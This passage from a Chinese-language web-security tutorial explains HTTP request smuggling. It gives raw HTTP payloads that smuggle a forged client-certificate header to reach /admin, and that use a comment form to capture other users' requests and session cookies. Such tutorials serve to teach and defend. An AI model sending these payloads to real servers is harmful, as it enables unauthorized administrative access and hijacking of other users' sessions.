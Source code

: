 ```plain
GET /admin HTTP/1.1
Host: normal-website.com
X-SSL-CLIENT-CN: carlos
```

由于这些头应该对用户完全隐藏，它们通常被后端服务器隐式信任，如果您能够发送正确的头和值的组合，那么将可能够绕过访问控制限制，而实际上这种行为通常是不可利用的，因为前端服务器倾向于覆盖这些已经存在的头，然而走私的请求对前端是完全隐藏的，所以它们包含的任何头都将被发送到后端而不被改变

```plain
POST /example HTTP/1.1
Host: vulnerable-website.com
Content-Type: x-www-form-urlencoded
Content-Length: 64
Transfer-Encoding: chunked

0

GET /admin HTTP/1.1
X-SSL-CLIENT-CN: administrator
Foo: x
```

### 越权操作

如果应用程序包含任何类型的功能，允许您存储并在以后检索文本数据，那么此时您可以潜在地使用它来捕获其他用户请求的内容，这些可能包括用户提交的会话令牌或其他敏感数据，评论、电子邮件、个人资料描述、屏幕名称等等都适合作为这种攻击的载体，在执行攻击时您需要发送一个向存储函数提交数据的请求，并将包含要存储的数据的参数放在请求的最后，例如:假设一个应用程序使用下面的请求来提交一篇博客文章的评论，该评论将被存储并显示在博客上

```plain
POST /post/comment HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 154
Cookie: session=BOe1lFDosZ9lk7NLUpWcG8mjiwbeNZAO

csrf=SmsWiwIJ07Wg5oqX87FfUVkMThn9VzO0&postId=2&comment=My+comment&name=Carlos+Montoya&email=carlos%40normal-user.net&website=https%3A%2F%2Fnormal-user.net
```

此时我们可以发送一个内容长度过长的请求并且注释参数位于请求的末尾

```plain
GET / HTTP/1.1
Host: vulnerable-website.com
Transfer-Encoding: chunked
Content-Length: 330

0

POST /post/comment HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 400
Cookie: session=BOe1lFDosZ9lk7NLUpWcG8mjiwbeNZAO

csrf=SmsWiwIJ07Wg5oqX87FfUVkMThn9VzO0&postId=2&name=Carlos+Montoya&email=carlos%40normal-user.net&website=https%3A%2F%2Fnormal-user.net&comment=
```
